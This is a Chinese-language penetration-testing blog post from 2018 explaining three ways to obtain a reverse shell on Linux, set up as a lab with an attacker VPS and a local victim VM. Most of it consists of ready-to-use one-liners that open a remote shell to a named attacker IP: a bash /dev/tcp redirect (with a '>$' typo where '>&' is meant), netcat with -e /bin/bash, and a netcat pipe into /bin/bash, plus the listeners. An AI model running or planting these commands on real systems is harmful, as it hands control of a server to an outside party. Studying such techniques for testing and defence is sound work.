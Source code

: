 ```yaml
---
title: Linux反弹shell的三种方法
date: 2018-11-06 11:55:30
tags: ['安全','反弹shell','netcat', '渗透测试']
categories: 安全
---
```


<div style="text-align: center;">
{% note success %} 
### 0x01 前言
{% endnote %}
</div>

在渗透测试中，当我们可以得到一个可以执行远程命令的漏洞时，我们通常会去获取一个shell，但是通常服务器防火墙亦或者云上都会对端口等进行严格控制，导致不能通过监听端口进行shell连接，这种情况下该怎么获取shell呢？

而通常情况下，不论是防火墙还是云盾等防护措施，不会对服务器对外连接进行限制（特殊情况除外），这时候就可以通过反弹shell来获取连接，即通过服务器反向连接一个外部机器来获取一个shell。


<div style="text-align: center;">
{% note success %} 
### 0x02 获取shell
{% endnote %}
</div>

通过上面的解释，可以知道，反弹shell需要一个外部可访问的服务器，即需要一个有公网IP访问的服务器，作为黑客的攻击服务器。

我这里用自己的VPS机器作为一个攻击机器（IP: 130.211.244.96），操作系统是Centos7。用一个局域网虚拟机作为一个有漏洞的受害机器，即被攻击机器（IP: 192.168.6.220)，操作系统也是Centos7。

#### 通过bash反弹shell

第一种方法是直接利用bash进行反向shell的连接。首先在黑客的攻击机器130.211.244.96开启监听端口，监听来自外部的反向连接。打开终端，执行命令`nc -lvvp 7777`,这里用nc监听130.211.244.96的7777端口（更多的nc使用方法请自行了解）。之后在被攻击机器上即受害机器上192.168.6.220执行反向连接的bash命令`bash -i >$ /dev/tcp/130.211.244.96/7777 0>&1`。

`bash -i`的意思是打开一个交互式shell，/dev/tcp/建立一个tcp的socket连接，>&将标准错误输出重定向到标准输出中，0>&1将标准输入重定向到标准输出中。

下面来看一下具体的效果，先在攻击机器上监听端口：

{% asset_img 1攻击机监听端口.jpg %}

在受害机器上反弹shell：

{% asset_img 1受害机反弹shell.jpg%}

之后可以看到攻击机器上返回了一个受害机的bash，可以执行命令，到此就利用bash获得了一个反向shell。

{% asset_img 1攻击机获得shell.jpg %}

#### 利用netcat反弹shell

如果受害机上安装了netcat，也可以利用netcat来进行反弹shell。

同样，先在攻击机器上130.211.244.96开启监听端口`nc -lvvp 7777`，等待受害机器连接。

{% asset_img 1攻击机监听端口.jpg %}

在受害机器上执行命令`nc -e /bin/bash 130.211.244.96 7777`,反弹一个bash的shell给攻击机器。然后就可以在攻击机器上执行命令了。

{% asset_img 2受害机反弹shell.jpg %}

{% asset_img 2攻击机获得shell.jpg %}


#### 利用管道反弹shell

netcat的-e 参数后面跟一个可执行程序的名称，当连接被建立时，会运行这个程序。而在有的发行版linux中netcat是不带这个参数的，这时候可以利用管道进行反弹shell。

首先在攻击机器上130.211.244.96利用nc监听两个端口7777、7778。

{% asset_img 3攻击机监听端口.jpg %}

然后在受害机器上执行命令`nc 130.211.244.96 7777 | /bin/bash | nc 130.211.244.96 7778`，该命令意思是连接攻击机7777端口，将传递过来的命令交给/bin/bash 执行然后将结果返回到7778端口。

{% asset_img 3受害机反弹shell.jpg %}

这样在攻击机上就获得了一个shell，通过在7777端口执行命令，在7778端口进行命令的回显，如下图示。

{% asset_img 3攻击机获得shell.jpg %}


<br>

当然还有其他反弹shell的方法，比如利用Python、Perl进行socket的反弹shell，重在思路，具体的方法肯定网上会有大牛给出的。


<script async src="//pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>
<!-- 信息流广告 -->
<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4127326375481893"
     data-ad-slot="9105526840"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>
<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>